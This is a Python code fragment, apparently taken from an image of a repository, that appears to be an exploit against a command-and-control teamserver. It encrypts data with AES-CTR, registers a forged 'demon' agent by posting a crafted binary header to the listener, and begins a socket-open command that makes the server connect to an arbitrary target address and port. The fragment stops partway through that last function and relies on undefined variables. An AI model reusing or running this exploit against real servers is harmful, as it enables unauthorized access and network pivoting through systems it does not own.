 ```python
def int_to_bytes(value, length=4, byteorder="big"):
    return value.to_bytes(length, byteorder)

def encrypt(key, iv, plaintext):

    if len(key) <= key_bytes:
        for x in range(len(key),key_bytes):
            key = key + b"0"

        assert len(key) == key_bytes

        iv_int = int(binascii.hexlify(iv), 16)
        ctr = Counter.new(AES.block_size * 8, initial_value=iv_int)
        aes = AES.new(key, AES.MODE_CTR, counter=ctr)

        ciphertext = aes.encrypt(plaintext)
        return ciphertext

def register_agent(hostname, username, domain_name, internal_ip, process_name, process_id):
    # DEMON_INITIALIZE / 99
    command = b"\x00\x00\x00\x63"
    request_id = b"\x00\x00\x00\x01"
    demon_id = agent_id

    hostname_length = int_to_bytes(len(hostname))
    username_length = int_to_bytes(len(username))
    domain_name_length = int_to_bytes(len(domain_name))
    internal_ip_length = int_to_bytes(len(internal_ip))
    process_name_length = int_to_bytes(len(process_name) - 6)

    data =  b"\xab" * 100

    header_data = command + request_id + AES_Key + AES_IV + demon_id + hostname_length + hostname + username_length + username + domain_name_length + domain_name + internal_ip_length + internal_ip + process_name_length + process_name + process_id + data

    size = 12 + len(header_data)
    size_bytes = size.to_bytes(4, 'big')
    agent_header = size_bytes + magic + agent_id

    print("[***] Trying to register agent ...")
    r = requests.post(teamserver_listener_url, data=agent_header + header_data, headers=headers, verify=False)
    if r.status_code == 200:
        print("[***] Success!")
    else:
        print(f"[!!!] Failed to register agent - {r.status_code} {r.text}")

def open_socket(socket_id, target_address, target_port):
    # COMMAND_SOCKET / 2540
    command = b"\x00\x00\x09\xec"
    request_id = b"\x00\x00\x00\x02"

    # SOCKET_COMMAND_OPEN / 16
    subcommand = b"\x00\x00\x00\x10"
    sub_request_id = b"\x00\x00\x00\x03"

    local_addr = b"\x22\x22\x22\x22"
    local_port = b"\x33\x33\x33\x33"
    
    forward_addr = b""
    for octet in target_address.split(".")[::-1]:
        forward_addr += int_to_bytes(int(octet), length=1)
```